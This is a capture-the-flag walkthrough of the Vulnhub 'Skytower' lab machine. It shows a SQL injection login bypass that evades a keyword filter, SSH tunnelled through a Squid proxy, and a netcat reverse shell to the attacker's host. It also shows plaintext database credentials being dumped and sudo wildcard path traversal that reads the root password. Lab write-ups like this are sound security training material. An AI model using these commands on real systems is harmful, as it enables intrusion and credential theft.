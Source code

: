 ﻿## Skytower Writeup
 
Todays it's Skytower by Telspace which you can find over at Vulnhub, https://www.vulnhub.com/entry/skytower-1,96/

Start off with the usual nmap scan and checkout what's going on.

```
nmap -v -sV -sC 192.168.56.101
```
```
Nmap scan report for 192.168.56.101
Host is up (0.00013s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Site doesn't have a title (text/html).
3128/tcp open     http-proxy Squid http proxy 3.1.20
|_http-server-header: squid/3.1.20
|_http-title: ERROR: The requested URL could not be retrieved
MAC Address: 08:00:27:54:4A:37 (Oracle VirtualBox virtual NIC)
```
Looks like a Squid, a webserver, and ssh. Checking out the website we see this Skytech Login form.

![](pics/1.PNG)

First we try admin' in the input box and it shows us a sql error.
```
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1]
```
So we try doing the usual login bypasses like ' OR 1=1# and get nothing. Checking the error message again it seems that OR is being filtered out.
```
curl --data "email=admin&password=' OR 1=1#" http://192.168.56.101/login.php
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '11#'' at line 1]
```
After a bunch of failing we replace the OR with || instead and it works we get logged in as the user john.
```
curl --data "email=admin&password=' || 1=1#" http://192.168.56.101/login.php
```

![](pics/2.PNG)

OK then we have some creds for the ssh that's behind this proxy. The next step is setup our /etc/proxychains.conf to use the http proxy on port 3128 and we can ssh into the box.
```
root@kali:~/machines/skytower# proxychains ssh john@192.168.56.101
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.56.101:3128-<><>-192.168.56.101:22-<><>-OK
The authenticity of host '192.168.56.101 (192.168.56.101)' can't be established.
ECDSA key fingerprint is SHA256:QYZqyNNW/Z81N86urjCUIrTBvJ06U9XDDzNv91DYaGc.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.56.101' (ECDSA) to the list of known hosts.
john@192.168.56.101's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 18 15:08:41 2018

Funds have been withdrawn
Connection to 192.168.56.101 closed.
```
Umm maybe not then, we lose our $2 and get booted? That's not good but we can still run commands over ssh, so let's get a quick shell with netcat.
```
root@kali:~/machines/skytower# proxychains ssh john@192.168.56.101 nc 192.168.56.102 443 -e /bin/sh
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.56.101:3128-<><>-192.168.56.101:22-<><>-OK
john@192.168.56.101's password:

───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 40670
id
uid=1000(john) gid=1000(john) groups=1000(john)
```
And we have no python so it seems like we might be stuck in this crappy shell. No worries though moving forward we can see a couple more users on the box, but we can't look at their home folders. So we check out the login.php page from /var/www and it appears to give us the mysql password.
```
$db = new mysqli('localhost', 'root', 'root', 'SkyTech');
```
We can also see the filtering that is happening from before that wouldn't allow us to use OR operators.
```
$sqlinjection = array("SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT"); 
$email = str_ireplace($sqlinjection, "", $_POST['email']); 
$password = str_ireplace($sqlinjection, "", $_POST['password']);
```

So with this crap shell we can't explore the Mysql very easily but we can exec one command at a time like we've been doing. 
```
mysql -uroot -proot -e 'show databases;'
Database
information_schema
SkyTech
mysql
performance_schema
mysql -uroot -proot -e 'use SkyTech; show tables;'
Tables_in_SkyTech
login
mysql -uroot -proot -e 'use SkyTech; show tables; select * from login;'
Tables_in_SkyTech
login
id      email   password
1       john@skytech.com        hereisjohn
2       sara@skytech.com        ihatethisjob
3       william@skytech.com     senseable
```
Good stuff. William's password doesn't seem to work, but we login as Sara and get booted as usual. We setup a listener and get a shell like before then notice we can run a couple of commands as root which are configured horribly with wildcard characters.
```
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 40684
sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
```
So the accounts folder is empty, lets try cating the root flag with some path traversal should be easy enough.
```
sudo cat /accounts/../../../../../../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
```
Awesome let's get our root shell then.
```
root@kali:~/machines/skytower# proxychains ssh root@192.168.56.101
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.56.101:3128-<><>-192.168.56.101:22-<><>-OK
root@192.168.56.101's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 18 16:30:19 2018 from 192.168.56.101
root@SkyTower:~# id
uid=0(root) gid=0(root) groups=0(root)
```
That was a lot of fun, thanks a bunch @telspacesystems for making this one and @VulnHub for all the challenges.
 

